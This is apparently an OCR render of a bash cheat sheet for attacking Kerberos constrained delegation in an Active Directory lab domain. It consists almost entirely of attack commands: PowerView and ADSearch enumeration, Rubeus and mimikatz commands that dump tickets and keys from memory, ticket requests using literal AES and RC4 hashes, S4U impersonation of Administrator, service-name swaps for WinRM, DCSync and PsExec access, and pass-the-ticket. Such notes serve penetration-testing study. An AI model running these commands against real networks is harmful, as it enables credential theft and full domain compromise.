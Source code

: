 ```bash
# Enum account
## Powerview enum, check msds-allowedtodelegateto : spns, useraccountcontrol: TRUSTED_TO_AUTH_FOR_DELEGATION, 
Get-DomainUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto
## expand the property
get-domainuser -trustedtoauth | select -expand msds-allowedtodelegateto 

## ADSearch enum
ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes cn,dnshostname,samaccountname,msds-allowedtodelegateto --json

# exploit, service account(constrained delegate enabled) dcorp-adminsrv$
## 1. request tgt of service, which can impersonate others
## If you are SYSTEM in the server, you might take it from memory
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
.\Rubeus.exe tgtdeleg  ## current service account session

## have SYSTEM, dump AES key or the RC4 hash from memory and request one
mimikatz sekurlsa::ekeys
## Request with aes/rc4
## kekebo
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:8c6264140d5ae7d03f7f2a53088a291d

## Rebeus.exe 
.\Rubeus.exe asktgt /user:dcorp-adminsrv$ /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /opsec /nowrap
.\Rubeus.exe asktgt /user:dcorp-adminsrv$ /rc4:cc098f204c5887eaa8253e7c2749156f /outfile:TGT_websvc.kirbi

## 2. Obtain a TGS of the Administrator user to self
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /impersonateuser:Administrator /outfile:TGS_administrator

## 3. Obtain service TGS impersonating Administrator (CIFS)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /outfile:TGS_administrator_CIFS

## Impersonate Administrator on different service (HOST)
.\Rubeus.exe s4u /ticket:TGT_websvc.kirbi /tgs:TGS_administrator_Administrator@DOLLARCORP.MONEYCORP.LOCAL_to_websvc@DOLLARCORP.MONEYCORP.LOCAL /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /altservice:HOST /outfile:TGS_administrator_HOST

## 4. Load ticket in memory
.\Rubeus.exe ptt /ticket:TGS_administrator_CIFS_HOST-dcorp-mssql.dollarcorp.moneycorp.local

## 2&3 Get S4U TGS + Service impersonated ticket in 1 cmd (instead of 2)
.\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.local" /user:dcorp-adminsrv$ /ticket:TGT_websvc.kirbi /nowrap

## 2&3&4 rubeus S4U and ptt
Rubeus.exe s4u /ticket:[ticket file|ticket base64] /impersonateuser:administrator /domain:offensive.local /msdsspn:cifs/dc.offensive.local /dc:dc.offensive.local /ptt

## /altservice, HTTP (WinRM), LDAP (DCSync), HOST (PsExec shell), MSSQLSvc (DB admin rights).
Rubeus.exe s4u /ticket:[ticket file|ticket base64] /impersonateuser:administrator /domain:offensive.local /msdsspn:cifs/dc.offensive.local /altservice:host,wsman,http,krbtgt/dc:dc.offensive.local 

# kekeo + Mimikatz
```